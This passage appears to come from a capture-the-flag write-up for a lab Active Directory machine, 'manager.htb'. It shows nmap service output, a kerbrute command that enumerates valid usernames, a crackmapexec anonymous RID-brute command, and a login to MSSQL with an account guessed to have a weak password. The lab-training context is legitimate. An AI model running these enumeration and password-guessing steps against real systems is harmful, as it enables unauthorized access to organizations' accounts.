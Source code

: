 ```
| number: 15.00.2000.00
| Product: Microsoft SQL Server 2019
| Service pack level: RTM
| Post-SP patches applied: false
|_ TCP port: 1433
|_ssl-date: 2023-10-22T06:57:07+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2023-10-22T06:49:49
|_Not valid after: 2053-10-22T06:49:49
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: mana
|_ssl-date: 2023-10-22T06:57:07+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject: commonName=dc01.manager.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc
| Not valid before: 2023-07-30T13:51:28
|_Not valid after: 2024-07-29T13:51:28
3269/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: mana
| ssl-cert: Subject: commonName=dc01.manager.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc
| Not valid before: 2023-07-30T13:51:28
|_Not valid after: 2024-07-29T13:51:28
|_ssl-date: 2023-10-22T06:57:06+00:00; +7h00m00s from scanner time.
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

With kerbrute I found this users :

kerbrute -domain dc01.manager.htb -users /opt/SecLists/Usernames/xato-net-10-million-usernames.txt -dc-ip 10.10.11.236

```
2023/10/22 16:51:35 > [+] VALID USERNAME: ryan@manager.htb
2023/10/22 16:52:03 > [+] VALID USERNAME: guest@manager.htb
2023/10/22 16:52:18 > [+] VALID USERNAME: cheng@manager.htb
2023/10/22 16:52:32 > [+] VALID USERNAME: raven@manager.htb
2023/10/22 16:53:47 > [+] VALID USERNAME: administrator@manager.htb
2023/10/22 16:55:36 > [+] VALID USERNAME: Ryan@manager.htb
2023/10/22 16:55:51 > [+] VALID USERNAME: Raven@manager.htb
2023/10/22 16:56:42 > [+] VALID USERNAME: operator@manager.htb
2023/10/22 17:07:09 > [+] VALID USERNAME: Guest@manager.htb
2023/10/22 17:07:15 > [+] VALID USERNAME: Administrator@manager.htb
2023/10/22 17:14:06 > [+] VALID USERNAME: Cheng@manager.htb
2023/10/22 17:28:57 > [+] VALID USERNAME: jinwoo@manager.htb
2023/10/22 17:31:29 > [+] VALID USERNAME: RYAN@manager.htb
2023/10/22 17:40:29 > [+] VALID USERNAME: RAVEN@manager.htb
2023/10/22 17:40:56 > [+] VALID USERNAME: GUEST@manager.htb
```

With crackmapexec smb manager.htb -u anonymous -p "" --rid-brute too

### User: ###

Bruteforcing the passwords wasn't a good idea, the most easy way: the operator has a weak password. So I try to connect with `impacket-mssqlclient` using that username and password
